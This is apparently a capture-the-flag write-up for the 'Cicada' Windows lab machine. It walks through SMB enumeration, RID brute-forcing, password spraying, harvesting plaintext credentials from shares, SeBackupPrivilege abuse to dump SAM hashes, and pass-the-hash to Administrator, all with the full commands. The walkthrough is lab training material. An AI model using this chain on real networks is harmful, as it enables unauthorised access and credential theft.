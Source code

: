 # Cicada - Windows(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

![ping](Images/ping.png)


## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC default scripts
-sV Version Scan
```

![nmap](Images/nmap.png)

This returns quite a bit of information. We can see that a few ports are open, most notably port 445(SMB).

## Investigating SMB
We can check SMB by using netexec and smbclient.
Reference: https://www.netexec.wiki/

```
netexec smb <target IP>
- Check SMB

netexec winrm <target IP>

smbclient -NL <target IP>
- List SMB shares
```

![nxc](Images/nxc.png)

After checking the listed shares we find out that the HR share can be accessed with an anonymous user (no username/password is required).

```
smbclient //<target IP>/HR
```

![HR](Images/HR.png)

We can then retrieve the 'Notice from HR.txt' file by using the get command.
Back on our attacking machine, cat the file to read the contents. 

![HRContent](Images/HRContent.png)

In the output we can see the default password that is provided to new hires.

Use the --rid-brute option in netexec to brute force a list of usernames and output them to a txt file.

```
netexec smb <target IP> -u 'anonymous' -p '' --rid-brute > user_name_enum.txt
```

![UserEnum](Images/UserEnum.png)

Clean up the output so that the text file only contains the usernames.
Then use netexec to check to see if the default password is still in use by any of the accounts.

```
netexec smb <target IP> -u userNames.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![UserEnumPwd](Images/UserEnumPwd.png)

We can see that the password worked for the user michael.wrightson.
Next, we can check what access Michael has to the available SMB shares.

```
smbmap -H <target IP> -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![smbMap](Images/smbMap.png)


Checking the READ ONLY shares we dont find anything of use.
Next we can try enum4linux to try enumerate more information. 
Reference: https://github.com/CiscoCXSecurity/enum4linux

```
enum4linux  -a -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' <target IP>
```
![enum4](Images/enum4.png)

Luckily, a user has left his password in his account details.
We can try smbmap again with the new credentials.

```
smbmap -H <target IP> 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```
Now we can see that we have access to the DEV share.

![smbMap2](Images/smbMap2.png)

Access the DEV share using smbclient.

```
smbclient //<target IP>/DEV -U 'david.orelious'
```

![smbClient2](Images/smbClient2.png)

We can get the file Backup_script.ps1 and then read it locally on our attacking machine.
The script contains another set of credentials in plaintext.

![backupScript](Images/backupScript.png)

## User Flag
Use evil-winrm with the new user credentials. This grants us user access to the box and we can find the flag on the users desktop.

```
evil-winrm -i <target IP> -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![userFlag](Images/userFlag.png)

## Privilege Escalation and Root Flag
We can enumerate the current privileges of the logged in user using the below commnad.
```
whoami /priv
```

![regSave](Images/regSave.png)

We see that SeBackupPrivilege is Enabled. This can be used to escalate our privileges. Reference: https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md

```
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```

Next, we can use impack-secretsdump to dump the sam hashes. With this we can use evil-winrm to pass the hash and connect as Administrator.
From here, navigate to the Desktop to retrieve the root flag.

```
impacket-secretsdump LOCAL -system system -sam sam
evil-winrm -i <target IP> -u 'Administrator' -H '<hash>'
```

![adminHash](Images/adminHash.png)

Congratulations Cicada has been successfully Pwned!

![pwned](Images/pwned.png)
